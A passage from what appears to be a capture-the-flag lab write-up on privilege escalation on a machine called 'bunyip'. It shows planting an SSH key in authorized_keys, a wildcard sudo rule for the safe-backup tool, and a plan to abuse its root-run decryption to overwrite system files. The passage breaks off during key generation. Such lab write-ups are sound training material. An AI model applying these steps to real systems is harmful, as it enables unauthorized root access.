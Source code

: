 ## Privilege Escalation

The shell can be uploaded by dropping our SSH public key into the `authorized_keys` folder of `arnold`.&#x20;

```bash
mkdir ~/.ssh
echo 'PUBLIC KEY' >> ~/.ssh/authorized_keys
```

### Sudo Safe-Backup --> File Write

I checked our `sudo` privileges, and found this:

```
arnold@bunyip:~$ sudo -l
Matching Defaults entries for arnold on bunyip:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User arnold may run the following commands on bunyip:
    (ALL) NOPASSWD: /usr/bin/safe-backup *
```

There's a wildcard present, which is never a good thing. When we run it, the program gives us the Github repository it is from:

```
arnold@bunyip:~$ sudo /usr/bin/safe-backup

 Safe Backup v1.4.8
 Github: https://github.com/scrwdrv/safe-backup

2023-06-30 08:17:04 ¦ [00] -MASTER ¦  INFO ¦ No parameters were found, restoring configuration...
2023-06-30 08:17:04 ¦ [00] -MASTER ¦  INFO ¦ Start building configuration...
```

{% embed url="https://github.com/scrwdrv/safe-backup" %}

Reading the repository, it seems that this file takes a file as input and either encrypts or decrypts it. The encryption is rather useless for privilege escalation, since it uses a secure method to encrypt files that we probably cannot break.

The same cannot be said for the decryption. Since we can run this as the `root` user on the machine, we can actually replace files with this method. All we have to do is encrypt some files on our Kali machine, transfer the encrypted file to the machine, then decrypt it there and overwrite any existing files.

We can generate a key pair using `ssh-keygen` and also create an `authorized_keys` file:

```
$ mkdir .ssh
$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): /home/kali/pg/linux/bunyip/.ssh/id_rsa
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/kali/pg/linux/bunyip/.ssh/id_rsa
Your public key has been saved in /home/kali/pg/linux/bunyip/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:mIxZYe/kc3hDXOcckyhL0/iTqQr7u3GzMclBR4GK1gs kali@kali
The key's randomart image is:
+---[RSA 3072]----+
|      o    ++o+. |
|     . o .*oo+.o |
|      .ooo+=.oo  |
|     =E*o+..=    |
|    o.+.S.=. .   |
```